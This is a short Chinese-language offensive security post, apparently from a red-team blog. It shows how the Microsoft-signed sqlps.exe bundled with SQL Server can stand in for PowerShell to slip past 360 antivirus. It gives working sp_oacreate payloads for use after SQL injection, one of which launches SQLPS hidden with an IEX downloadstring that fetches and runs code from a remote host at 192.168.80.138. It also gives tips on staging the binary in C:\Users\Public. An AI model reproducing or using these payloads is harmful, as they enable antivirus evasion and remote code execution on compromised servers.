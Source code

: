 ```yaml
---
title: sqlps替代powershell
tags: Bypass
---
```


## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100806.png)

此文件本身自带微软签名：

![image-20220315190237951](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100808.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100810.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100812.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100815.png)



![image-20220315191725621](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100818.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100820.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100823.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
